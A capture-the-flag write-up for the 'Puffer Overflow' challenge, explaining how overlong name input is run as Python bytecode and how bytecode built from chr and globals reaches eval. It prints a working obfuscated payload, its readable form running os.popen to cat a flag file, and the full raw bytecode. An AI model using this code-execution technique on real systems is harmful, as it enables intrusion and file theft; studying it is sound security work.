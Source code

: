 # Puffer Overflow

>Let's review the code. 

There's two interesting functions - put_on_stack, which generates some interesting python bytecode to put a value onto the stack, and returns it.

Then, there's execute bytecode. It takes some bytecode, and, well, executes it. How though?

It loads 256 constants - 1,2,3, etc. matching up to 1,2,3,etc. 
As global variables, it loads the functions chr, ord, globals, locals, getattr and setattr. 
We have to use these functions alone to gain RCE. Impossible? No. But lets look into how we can do this.

We input a name. It takes the first 32 bytes of this, and generates some byte code that puts this name onto the stack. 
It then prepends said bytecode to all bytes afterwards, and executes it. 
If we put 0-32 chars, this is fine, but if we input anymore, then from the 33th character onwards is executed as python bytecode!

We must generate python bytecode that utilises the small set of functions and variables we have to gain RCE. My final payload in python code form was globals()[chr(101)+chr(118)+chr(97)+chr(108)](chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)+chr(46)+chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(112)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(104)+chr(111)+chr(109)+chr(101)+chr(47)+chr(114)+chr(97)+chr(99)+chr(116)+chr(102)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41))

Not very readable, but in normal python code, 
```python
globals()['eval']('__builtins__.__import__("os").popen("cat /home/ractf/flag.txt").read()')
```
How can we do this? We can't just go about compiling a .pyc or code using compile() - those files create constants and globals to suit them. We can't do this however, we must only use constants and variables given to us. We can analyse the put_on_stack function, and see what it does

* `b"t\x00"` - load the first global, chr. We can replace with \x02 to load the 3rd global, globals
* `b"d<number>"` - load constant for argument. When doing globals(), we don't need this.
* `b"\x83\x01"` - call current function with 1 argument
* `b"\x17\x00"` - binary add. does first value on stack + second value. note it's called binary but it can be used to concatenate strings just like adding numbers bcoz its python at the end of the day

we can use this to generate bytecode to call globals, `b"t\x02\x83\x00"`. Then, we must dynamically construct the word "eval" using only chr via the same methods the put_on_stack function uses. After that, we use the BINARY_SUBSCR opcode, b"\x19\x00", which computes TOP1 = TOP1[TOP2]

Now what? Loaded on the stack is the function eval. Now, using the same method as put_on_stack again, we construct our python payload that cats the flag. Finally, we wrap it all up with a b"\x83\x01" - call the function eval, loaded from globals()['eval'], with one argument.

I ended up doing some enumeration, and finding `flag.txt` in `/home/ractf`, then catting it.

This results in the flag ractf{Puff3rf1sh??}. I will post the final bytecode below and my generation script and final exploit script as `generator.py` and `puffer.py`.


Bytecode: 
```
t\x02\x83\x00t\x00de\x83\x01t\x00dv\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dl\x83\x01\x17\x00\x19\x00t\x00d_\x83\x01t\x00d_\x83\x01\x17\x00t\x00db\x83\x01\x17\x00t\x00du\x83\x01\x17\x00t\x00di\x83\x01\x17\x00t\x00dl\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00di\x83\x01\x17\x00t\x00dn\x83\x01\x17\x00t\x00ds\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00di\x83\x01\x17\x00t\x00dm\x83\x01\x17\x00t\x00dp\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00dr\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d(\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00ds\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00d)\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00dp\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00dp\x83\x01\x17\x00t\x00de\x83\x01\x17\x00t\x00dn\x83\x01\x17\x00t\x00d(\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00dc\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00d \x83\x01\x17\x00t\x00d/\x83\x01\x17\x00t\x00dh\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00dm\x83\x01\x17\x00t\x00de\x83\x01\x17\x00t\x00d/\x83\x01\x17\x00t\x00dr\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dc\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00df\x83\x01\x17\x00t\x00d/\x83\x01\x17\x00t\x00df\x83\x01\x17\x00t\x00dl\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dg\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00dx\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00d)\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00dr\x83\x01\x17\x00t\x00de\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dd\x83\x01\x17\x00t\x00d(\x83\x01\x17\x00t\x00d)\x83\x01\x17\x00\x83\x01
```

#### ractf{Puff3rf1sh??}
